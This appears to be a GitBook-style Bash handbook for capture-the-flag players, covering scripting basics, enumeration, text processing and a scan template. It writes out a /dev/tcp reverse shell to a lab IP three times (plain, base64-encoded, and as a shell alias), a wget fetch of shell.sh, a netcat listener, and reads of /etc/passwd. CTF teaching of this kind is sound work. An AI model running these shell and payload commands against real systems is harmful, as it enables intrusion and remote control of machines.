```yaml
---
icon: circle-dollar
---
```


# DeepDive into Bash

## **The Ultimate Bash Scripting Handbook for CTFs: Conquer the Command Line**

Bash scripting is the backbone of a CTF player’s workflow — automating enumeration, parsing loot, exploiting vulnerable systems, and chaining tools into efficient, repeatable workflows.\
This handbook is your **Bash arsenal** — from fundamentals to advanced automation used by red teamers and hardcore CTF competitors.

***

### I. 🧩 Core Concepts

| Concept                   | Description                                                     |
| ------------------------- | --------------------------------------------------------------- |
| **Shell**                 | The command-line interpreter (e.g., Bash, Zsh).                 |
| **Commands**              | Instructions executed by the shell (`ls`, `grep`, `awk`, etc.). |
| **Variables**             | Store and reuse data dynamically.                               |
| **Control Flow**          | `if`, `for`, `while`, `case` — control logic and decisions.     |
| **Functions**             | Modular, reusable code blocks.                                  |
| **Pipes & Redirection**   | `<`, `>`, `>>`, \`                                              |
| **Subshells**             | `( ... )` for isolated command execution environments.          |
| **Environment Variables** | `$PATH`, `$USER`, `$PWD`, `$SHELL`, `$RANDOM`.                  |

***

### II. ⚙️ Essential Bash Commands for CTFs

#### 🔍 Enumeration & System Recon

```bash
uname -a                # Kernel info
whoami                  # Current user
id                      # User/group details
ps aux | grep process   # Find running processes
ss -tuln                # List open ports
lsblk                   # List block devices
```

#### 📂 File Manipulation

```bash
ls -la
cd /tmp
cat /etc/passwd
find / -type f -perm -4000 2>/dev/null  # Find SUID binaries
```

#### 🧠 Text Processing

```bash
grep -r "flag" /opt/
awk -F: '{print $1}' /etc/passwd
sed 's/root/admin/g' config.txt
cut -d' ' -f1 file.txt
sort | uniq -c | sort -nr
```

#### 🌐 Networking

```bash
ping -c 1 10.10.10.10
curl -s http://10.10.10.10:8080
wget http://target.com/shell.sh
nc -lvnp 4444          # Reverse shell listener
```

***

### III. 🧮 Bash Scripting Essentials

#### 🪶 Variables

```bash
name="ctfplayer"
echo "Hello, $name!"
```

#### 🧠 Command Substitution

```bash
ip=$(hostname -I)
echo "Local IP: $ip"
```

#### 🔄 Conditionals

```bash
if [ -f "/etc/shadow" ]; then
    echo "Shadow file exists!"
else
    echo "No access"
fi
```

#### 🔁 Loops

```bash
for i in {1..5}; do
    echo "Pinging 10.10.10.$i"
    ping -c 1 10.10.10.$i | grep "bytes from"
done
```

#### 🔧 Functions

```bash
scan_port() {
    nc -zv $1 $2 2>&1 | grep "succeeded"
}
scan_port 10.10.10.5 22
```

***

### IV. 💣 Advanced Bash for CTFs

#### 🧩 Automating Enumeration

```bash
#!/bin/bash
ip=$1
echo "[*] Scanning $ip"
nmap -sC -sV -oN nmap_$ip.txt $ip
cat nmap_$ip.txt | grep "open"
```

#### 🕵️ File Search + Extraction

```bash
find / -type f -name "*flag*" 2>/dev/null
grep -r "flag" /var/www/html 2>/dev/null
strings suspicious.bin | grep "HTB"
```

#### 💀 Reverse Shells

```bash
bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
```

Or encoded:

```bash
echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" | base64
```

#### 🧰 Data Parsing Tricks

```bash
cat urls.txt | while read url; do
    curl -s $url | grep "admin"
done
```

#### 🧠 Oneliner Automation (Weaponized Bash)

```bash
for i in $(seq 1 255); do
    (ping -c 1 10.10.10.$i | grep "bytes from" &) 
done
```

#### 🧷 Subshell Magic

```bash
(cd /tmp && ls)
pwd  # Still in original dir
```

#### ⚠️ Trap & Signal Handling

```bash
trap "echo '[!] Interrupted'; exit" INT
```

***

### V. 🚩 CTF-Oriented Practical Examples

#### 🕳️ Brute-forcing Directories

```bash
for dir in $(cat wordlist.txt); do
    status=$(curl -s -o /dev/null -w "%{http_code}" http://10.10.10.5/$dir/)
    if [ $status -eq 200 ]; then
        echo "Found: $dir"
    fi
done
```

#### 🔑 Decoding Challenge Files

```bash
cat encoded.txt | base64 -d | strings
```

#### 🧬 Automated Exploit Chain

```bash
for host in $(cat targets.txt); do
    echo "[+] Exploiting $host"
    nc -zv $host 22 && echo "SSH Open"
done
```

***

### VI. 🧠 CTF Pro Tips

* Use `set -x` for debugging scripts.
* Automate **recon → exploitation → loot extraction** in one pipeline.
* Always sanitize inputs; CTF boxes love to break sloppy scripts.
*   Use `.bashrc` aliases for repetitive CTF commands:

    ```bash
    alias scan="nmap -sC -sV -Pn"
    alias serve="python3 -m http.server 8000"
    alias rev="bash -i >& /dev/tcp/10.10.14.2/4444 0>&1"
    ```
* Keep a `~/scripts/` folder synced with GitHub or your GitBook for easy sharing.

***

### VII. 🧨 Bonus: Bash Script Template for CTFs

```bash
#!/bin/bash
# Author: yourname
# Usage: ./ctfscan.sh <target>

target=$1
echo "[+] Scanning $target"
nmap -sC -sV -oN results_$target.txt $target

echo "[+] Searching for flags"
grep -r "flag" /home /var/www 2>/dev/null
```

***
